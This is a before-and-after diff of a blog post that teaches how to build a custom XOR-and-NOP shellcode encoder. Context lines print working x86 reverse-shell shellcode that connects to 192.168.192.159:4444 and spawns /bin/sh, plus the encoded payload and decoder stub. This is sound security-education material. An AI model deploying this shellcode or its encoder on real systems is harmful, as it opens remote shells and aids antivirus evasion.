

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-06-10-Custom-Encoder.md, in a window 1280 px wide and 900 px high, scrolled down 4037 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-06-10-Custom-Encoder.md

````diff
--- a/_posts/2020-06-10-Custom-Encoder.md
+++ b/_posts/2020-06-10-Custom-Encoder.md
@@ -26,7 +26,7 @@
 \x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xb2\x06\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x31\xc9\x51\x68\xc0\xa8\xc0\x9f\x66\x68\x11\x5c\x66\x6a\x02\x89\xfb\x89\xe1\xb2\x16\xcd\x80\x31\xc0\x31\xdb\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
 ```
 
-## Encoding shell code ##
+## Encoder ##
 
 Once we get opcodes for encoded shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with ```0x0F``` key.
 After XOR opration, NOP (```\x90```) will be injected after every encoded byte.
@@ -123,6 +123,8 @@
 "\xeb\x20\x5e\x31\xc0\x31\xc9\x31\xff\xb1\xc4\xd0\xf9\x89\xf2\x89\xf7\x8a\x06\x34\x0f\x88\x07\x46\x46\x47\x49\x80\xf9\x01\x75\xf1\xff\xe2\xe8\xdb\xff\xff\xff\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\x3e\x90\xdd\x90\x3e\x90\xf9\x90\x69\x90\xb7\x90\x68\x90\x0e\x90\xbc\x90\x0d\x90\xbe\x90\x0e\x90\xbd\x90\x09\x90\xc2\x90\x8f\x90\x86\x90\xc8\x90\x3e\x90\xcf\x90\x69\x90\xb7\x90\x65\x90\x0e\x90\x3e\x90\xc6\x90\x5e\x90\x67\x90\xcf\x90\xa7\x90\xcf\x90\x90\x90\x69\x90\x67\x90\x1e\x90\x53\x90\x69\x90\x65\x90\x0d\x90\x86\x90\xf4\x90\x86\x90\xee\x90\xbd\x90\x19\x90\xc2\x90\x8f\x90\x3e\x90\xcf\x90\x3e\x90\xd4\x90\x3e\x90\xc6\x90\xbe\x90\x0c\x90\x3e\x90\xcf\x90\xbf\x90\x30\x90\x86\x90\xf4\x90\xf1\x90\xc6\x90\xc2\x90\x8f\x90\x7a\x90\xfb\x90\x3e\x90\xcf\x90\x5f\x90\x67\x90\x61\x90\x20\x90\x7c\x90\x67\x90\x67\x90\x20\x90\x20\x90\x6d\x90\x66\x90\x86\x90\xec\x90\x5f\x90\x86\x90\xed\x90\x5c\x90\x86\x90\xee\x90\xbf\x90\x04\x90\xc2\x90\x8f\x90"
 ```
 
+## Seeing decoder in action ##
+
 Next, we can use skeleton code to run and test sucessfull decoding. To compile it following command should be used:
 
 ```
@@ -169,8 +171,10 @@
 ```
 gdb-peda$ x/10b 0x404067
 0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
- decoded 1st opcode-------------^^^^
- NOP is ignored and replaced -----------^^^^
+ decoded 1st opcode ------------^^^^
+ NOP is replaced with 2nd opcode -------^^^^
+ decoded 3rd opcode ----------------------------^^^^
+ etc.
 ```
 
 * content of the same address after some more itterations:
@@ -181,6 +185,6 @@
 0x40406f <shellcode+47>:        0x31    0xf6
 ```
 
-## Testing reverse shell ##
+Reverse shell is sucessfuly established once decoding is finished as show on following scren shot.
 
 ![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00018.png)
````
